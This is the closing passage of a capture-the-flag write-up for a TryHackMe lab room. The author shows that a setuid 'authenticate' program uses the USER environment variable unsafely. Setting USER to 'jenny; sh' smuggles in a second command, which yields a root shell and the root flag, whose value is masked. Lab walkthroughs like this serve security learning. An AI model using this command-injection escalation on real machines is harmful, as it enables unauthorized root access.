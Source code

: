 ```
  return 0;
}
```

Okay, if your uid is over 1000 and you aren't in the developer group it gets the USER environment variable and changes your group.

Now, we can just change the environment variable to execute a shell in the system.

```
jenny@wwbuddy:~$ echo $USER
jenny
jenny@wwbuddy:~$ export USER="jenny; sh"
jenny@wwbuddy:~$ echo $USER
jenny; sh
jenny@wwbuddy:~$ authenticate
# cat /root/root.txt
THM{**********************}
```

There's the root flag.

This is the first room I've ever done, hope you liked it :D